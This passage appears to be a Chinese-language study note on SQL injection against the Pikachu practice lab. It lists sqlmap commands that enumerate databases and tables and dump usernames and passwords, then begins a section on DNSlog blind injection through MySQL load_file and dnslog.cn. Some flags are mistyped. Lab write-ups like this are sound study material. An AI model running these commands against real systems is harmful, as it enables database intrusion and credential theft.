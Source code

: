`sqlmap -u "[目标]" --dbs --skip submit`

```
sqlmap -u "[ip]" --dbs --skip submit

//因为有两个参数而我们只需要测name的一个参数，所以需要用--skip命令让sqlmap不要考虑submit参数。
```

`sqlmap -u "[目标]" --D pikachu --tables --skip submit`

`sqlmap -u "[目标]" --D pikachu -T users --columns --skip submit`

`sqlmap -u "[目标]" --D pikachu --T users --C id,username,password --dump --skip submit`



方法二：

`sqlmap -u "[目标]" --dbs -p name`

```
sqlmap -u "[ip]" --dbs -p name

//因为有两个参数而我们只需要测name的一个参数，所以需要用-p命令让sqlmap只考虑name参数。-p 指定注入点
```



## dnslog注入——盲注

使用函数load_file【加载本地或者页面文件，加载页面文件即是说可以对页面发送请求】，需要点击数据库的配置文件，开启my.ini

在[mysqlld]主体里（可以是主体的结尾处），增加`secure_file_priv=`

重启MySQL服务器。

可以在数据库里做个实验：`select * from table`有回显：

![image-20220119233615432](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/04%20SQL%20inject.assets/image-20220119233615432.png)

如果没有，就去下面的网站

http://www.dnslog.cn/申请一个属于你自己的域名【临时】
